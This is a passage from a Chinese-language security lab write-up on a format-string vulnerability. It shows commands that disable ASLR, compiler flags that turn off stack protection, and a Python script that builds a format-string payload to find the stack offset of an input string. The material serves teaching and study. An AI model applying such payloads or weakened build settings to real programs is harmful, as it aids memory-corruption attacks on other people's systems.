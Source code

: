 ```bash
sudo sysctl -w kernel.randomize_va_space=0
```

编译

```bash
gcc -fno-stack-protector -no-pie -z execstack -m32 prog1.c -o prog1
```

运行程序查看变量var的地址

![image-20230519180644495](assets/image-20230519180644495.png)

位于`ffffcf68`处

## 3.2 测试valist到字符串首字符的长度

输出vaList开始40个双字的值，将payload的开头设为val的地址，看第几个双字的值为val的地址

task1_0.py

```python
#!/usr/bin/python3
# task1_0: test the length of vaList to the payload

# target address + %x*40 + \n
payload = "\x68\xcf\xff\xff"+"val:"+ ".%8x"*40 + "\n"

payload = payload.encode('latin-1')
with open('input', 'wb') as f:
  f.write(payload)
```

运行结果：

![image-20230519191536971](assets/image-20230519191536971.png)

发现第7个位置是字符串的起始位置。
